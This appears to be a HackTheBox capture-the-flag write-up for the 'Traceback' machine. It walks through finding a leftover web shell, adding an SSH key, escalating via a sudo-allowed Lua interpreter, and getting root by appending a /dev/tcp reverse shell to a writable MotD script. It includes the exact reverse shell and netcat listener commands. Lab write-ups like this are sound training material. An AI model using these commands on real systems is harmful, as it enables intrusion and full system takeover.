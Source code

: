 # Writeup - Traceback

## 1. Initial Scanning

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
```

Usual HTTP server and SSH server are available on recent versions.
No obvious exploits for the services are available out of the box.

A full TCP portscan (see `nmap_fulltcp`) reveals no other open ports.

## 2. Website Landing Page

The landing page show a defaced website owned by `Xh4H`, indicating that he/she left a backdoor for others to use. The source code of the page shows a comment saying

> `<!-- Some of the best web shells that you might need ;) -->`

indicating that there is a web shell left behind.

Which one in particular remains unknown at first, as there are seemingly no other documents on the web server, also no apparent directory listing.
`dirbuster` fails to find anything.

## 3. Finding the Shell

Googling `web shells` to find a couple popular reveals a [GitHub repository](https://github.com/TheBinitGhimire/Web-Shells) in the top results with the aforementioned message saying `Some of the best web shells that you might need`.
This is probably not a coincidence, therefore copying out the web shells listed in the repository into a file and requesting them at the target web site seems reasonable.

This yields `http://traceback/smevk.php` as valid address, indeed revealing a web shell. The default credentials mentioned in the GitHub repository work (`admin:admin`) and `webadmin` seems to be the username we operate as. However, its home directory doesn't contain the `user.txt` flag. On the way to the home directories, the user `sysadmin` and its respective home directory is discovered.

From here we can either place our own SSH public key in `webadmin`'s `authorized_keys` file or execute a reverse shell straight from the web shell (`netcat` is conveniently available).
SSH is convenient to use and persistent, so let's proceed with that.
Adding the key allows to log via SSH, so luckily `sshd`'s configuration doesn't prevent `webadmin`'s remote login.

## 4. Getting `sysadmin`

Instead of the `user.txt` flag, we find a `note.txt` indicating, that `webadmin` has access to an executable to "practice LUA", so probably some learning program or LUA interpreter.

`linenum` or `sudo -l` (see `linenum.log`) yields information about said command. Apparently `webadmin` is allowed to impersonate `sysadmin` when executing `/home/sysadmin/luvit`, which appears to be a LUA interpreter.

A quick lookup on how to execute system commands in LUA yields `os.execute("bash -i")`, which launches an interactive shell as user `sysadmin`, allowing a quick escape from the restricted `sudo` permission. In `sysadmin`'s home directory, the `user.txt` flag is found.

## 5. Attempting to escalate

`linenum.sh` shows `sudo 1.8` which is a couple (minor) versions behind the latest version. Besides that, no other interesting executables, etc. are found
in `linenum`'s log.

`searchsploit` yields 2 potential exploits for `sudo` on this or a later version. Both of them were unfortunately not successful.

### 5.1 pwfeedback

As the target machine neither has internet access nor a compiler installed, the files built by the exploit scrix

A promising exploit using a missing UID check to impersonate `root`.
Unfortunately it doesn't work, as `webadmin` has very restricted `sudo` privileges, which don't allow leveraging this vulnerability.

## 6. Escalating to `root`

Neither `sysadmin` nor `webadmin` seem to have other hints available. In addition, no `suid` executables are available either, so there should be some sort of application or misconfigured default software, we can utilize.
`.bash_history` yields a hint to `/etc/update-motd.d`, where the initial hacker (`Xh4H`) in this scenario modified the "Message of the Day" which appears upon login.

A closer look reveals that file is actually writeable by `sysadmin` (this is usually only writeable by `root`). Inserting code here causes it to be executed along with the other MotD scripts **as root**.

Inserting a reverse shell script into one of the script inside the `/etc/update-motd.d/` directory should provide us with a root shell upon next login.
However, we should pay attention to the exact script to prevent our reverse shell command from getting a regular login process stuck. Utilizing `nohup` and `&` should do the trick.

```bash
# Insert the reverse shell into the `00-header` file
echo 'nohup /bin/bash -i >& /dev/tcp/10.10.15.18/51337 0>&1 &' >> /etc/update-motd.d/00-header
```

Then just listen on our own machine for incoming connections:

```bash
nc -v -l -p 51337 -s 10.10.15.18
```

Upon re-connecting via SSH to `webadmin`, the reverse shell is triggered.
`root`'s home directory reveals the final flag `root.txt` (just like in other HackTheBox challenges).